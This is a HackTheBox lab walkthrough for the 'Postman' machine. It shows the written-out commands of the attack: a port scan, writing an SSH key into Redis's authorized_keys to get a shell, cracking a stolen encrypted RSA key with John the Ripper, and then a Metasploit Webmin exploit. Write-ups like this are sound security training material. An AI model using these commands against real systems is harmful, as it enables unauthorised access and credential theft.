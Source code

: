 ```yaml
---
title: HackTheBox - Postman
date: 2021-01-01 01:25:15 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, redis, ssh2john, John The Ripper, miniserv, webmin, CVE-2019-12840, metasploit, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/postman/Postman.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Postman-full-port-scan.txt 10.10.10.160
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

### Apache/2.4.29 (port 80)

![Apache port 80](/assets/img/htb/machines/linux/easy/postman/80.png)

![dirb port 80](/assets/img/htb/machines/linux/easy/postman/80-dirb.png)

### Miniserv (port 10000)

First we got an error:

![10000 miniserv error](/assets/img/htb/machines/linux/easy/postman/10000-miniserv.png)

After adding `10.10.10.160 postman` to `/etc/hosts` we are redirected to:

![webmin](/assets/img/htb/machines/linux/easy/postman/10000-webmin.png)

Thanks to [nmap scan](#nmap-scan) we know we're dealing with version **1.910**:

![searchsploit webmin](/assets/img/htb/machines/linux/easy/postman/webmin-searchsploit.png)

Unfortunately the metasploit exploit requires credentials.

### Redis 4.0.9 (port 6379)

According to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh), redis home directory is often `/var/lib/redis/`. Let's try to have a shell:

```bash
$ ssh-keygen -t rsa -f postman_rsa
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
$ cat foo.txt | redis-cli -h $TARGET -x set crackit
OK
# Don't know why but I had to do it twice
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
```

![shell](/assets/img/htb/machines/linux/easy/postman/shell.png)

## User (redis)

If we go to the `/home` directory, we see there is a user called Matt.

I tried to list the files that he owns:

![find files owned by Matt](/assets/img/htb/machines/linux/easy/postman/find_Matt.png)

The first file `/opt/id_rsa.bak` seems interesting.

We can see it;s an encrypted RSA key:

```bash
$ redis@Postman:/home/Matt$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----                     
Proc-Type: 4,ENCRYPTED
#...
```

We can transfer it yo our machine usinh `scp`:

```bash
$ scp -i postman_rsa redis@$TARGET:/opt/id_rsa.bak . 
```

Then we can convert using `ssh2john` and run **JohnTheRipper**:

```bash
$ /usr/share/john/ssh2john.py id_rsa.bak > matt_rsa.john
$ john matt_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:04 DONE (2021-01-01 01:03) 0.2500g/s 3585Kp/s 3585Kc/s 3585KC/s  0125457423 ..*7¡Vamos!
Session completed
```

`computer2008` is the passphrase!

## User (Matt)

```bash
$ ssh -i id_rsa.bak Matt@$TARGET
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
```

This did'nt work so I tried:

```bash
redis@Postman:~$ su Matt
Password: # computer2008
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ cat user.txt
99108a54ba44c99889199e3e53fdacfe
```

We can log in to **webmin** using Matt's credentials:

![webmin](/assets/img/htb/machines/linux/easy/postman/webmin.png)

Therefore we can run the metasploit exploit &darr; 

![msf-webmin](/assets/img/htb/machines/linux/easy/postman/msf-webmin.png)
![msf](/assets/img/htb/machines/linux/easy/postman/msf.png)

## Root

![webmin](/assets/img/htb/machines/linux/easy/postman/root_flag.png)
___

## Useful links

- [6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)
- [CVE-2019-12840](https://cvedetails.com/cve/CVE-2019-12840/)
- [Webmin 1910 Package Updates Remote Command Execution](https://www.pentest.com.tr/exploits/Webmin-1910-Package-Updates-Remote-Command-Execution.html)